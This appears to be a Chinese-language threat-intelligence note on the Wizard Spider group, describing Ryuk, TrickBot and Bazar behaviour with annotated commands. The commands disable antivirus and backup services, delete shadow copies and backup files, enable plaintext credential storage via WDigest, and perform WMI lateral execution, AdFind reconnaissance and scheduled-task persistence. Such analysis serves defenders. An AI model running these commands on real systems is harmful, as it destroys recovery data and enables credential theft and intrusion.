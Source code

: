 # Wizard Spider

## 特征

1. Ryuk勒索软件为了保持持久性，会修改注册表HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run的值为Ryuk可执行路径.

该勒索软件会通过创建kill.bat批处理脚本停止或禁用服务，然后终止某些特定进程.

```bash
net stop avpsus /y  //停止卡巴斯基更新服务
net stop McAfeeDLPAgentService /y  //停止McAfee DLP代理服务
net stop mfewc /y  //停止McAfee Web控制服务
net stop BMR Boot Service /y  //停止BMR服务
net stop NetBackup BMR MTFTP Service /y  //停止NetBackup BMR引导服务
sc config SQLTELEMETRY start= disabled  //禁用SQL Server的 Telemetry服务
sc config SQLTELEMETRY$ECWDB2 start= disabled
sc config SQLWriter start= disabled  //禁用SQL Server的卷影复制服务
sc config SstpSvc start= disabled  //禁用SSTP支持服务
taskkill /IM mspub.exe /F  //终止Microsoft Office进程
taskkill /IM mydesktopqos.exe /F
//终止记录键盘和鼠标输入并连接到网络的进程
taskkill /IM mydesktopservice.exe /F  //终止Oracle MyDesktop进程
```

然后该勒索软件会通过windows.bat批处理脚本来使感染主机更难恢复源文件.

```bash
vssadmin Delete Shadows /all /quiet
//删除所有指定卷的卷影副本，并且运行时不显示消息
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB
//指定调整最大存储空间量的C卷，然后指定存储卷为C，最后指定存储卷影副本的最大空间量为401MB
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded
//在卷C上调整卷C的卷影副本的最大空间量
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded
vssadmin Delete Shadows /all /quiet
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
del /s /f /q d:\*.VHD d:\*.bac d:\*.bak d:\*.wbcat d:\*.bkf d:\Backup*.* d:\backup*.* d:\*.set d:\*.win d:\*.dsk
del /s /f /q e:\*.VHD e:\*.bac e:\*.bak e:\*.wbcat e:\*.bkf e:\Backup*.* e:\backup*.* e:\*.set e:\*.win e:\*.dsk
del /s /f /q f:\*.VHD f:\*.bac f:\*.bak f:\*.wbcat f:\*.bkf f:\Backup*.* f:\backup*.* f:\*.set f:\*.win f:\*.dsk
del /s /f /q g:\*.VHD g:\*.bac g:\*.bak g:\*.wbcat g:\*.bkf g:\Backup*.* g:\backup*.* g:\*.set g:\*.win g:\*.dsk
del /s /f /q h:\*.VHD h:\*.bac h:\*.bak h:\*.wbcat h:\*.bkf h:\Backup*.* h:\backup*.* h:\*.set h:\*.win h:\*.dsk
//根据文件位置和扩展名删除文件。q为安静模式；s为所有子目录文件；f为关闭用户确认并强制删除文件功能
del %0  //删除正在执行的.bat脚本
```

2. 投递的TrickBot恶意软件会通过修改注册表HKLM\System\CurrentControlSet\Control\SecurityProviders\WDigest的UseLogonCredential值为1.将UseLogonCredential值设置为"1"可将Windows操作系统配置为将凭据以明文形式存储在内存中，然后通过使用凭据转储工具检索凭据.

3. 通过Bazar加载Ryuk勒索软件会通过WMI尝试横向执行恶意DLL文件:wmic /node:"DC.example.domain" process call create "rundll32 C:\PerfLogs\arti64.dll, StartW".在横向时还会尝试使用powershell -nop -exec bypass -EncodedCommand Base64字符串，下载可执行文件和禁用Windows Defender.

然后该恶意软件会通过下载adfind.exe应用程序收集Active Directory信息.

```bash
AdFind.exe -f "(objectcategory=computer)"  //查询当前域中所有计算机
AdFind.exe -f "(objectcategory=group)"  //查询当前域中所有组
AdFind.exe -f "(objectcategory=organizationalUnit)"  //查询当前域中所有组对象
AdFind.exe -f "(objectcategory=person)"  //查询当前域中所有用户
AdFind.exe  -subnets -f "(objectCategory=subnet)"  //查询所有子网
AdFind.exe  -sc trustdmp  
AdFind.exe -gcb -sc trustdmp
//转储所有信任对象
```

该恶意软件的变体还会创建计划任务以保持持久性.

```bash
"C:\Windows\System32\schtasks.exe" /CREATE /SC ONSTART /TN jf0c /TR "'C:\Users\pagefilerpqy.exe'" /f
"C:\Windows\System32\schtasks.exe" /CREATE /SC ONSTART /TN jf0c /TR "'C:\Users\pagefilerpqy.exe'" /f /RL HIGHEST
"C:\Windows\System32\schtasks.exe" /CREATE /SC ONCE /ST 17:21:58 /TN 9T6ukfi6 /TR "'C:\Users\pagefilerpqy.exe'" /f
"C:\Windows\System32\schtasks.exe" /CREATE /SC ONCE /ST 17:21:58 /TN 9T6ukfi6 /TR "'C:\Users\pagefilerpqy.exe'" /f /RL HIGHEST
//设置运行密钥为9T6ukfi6
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V \"microsoft update\" /t REG_SZ /F /D "SCHTASKS /run /tn 9T6ukfi6"
```
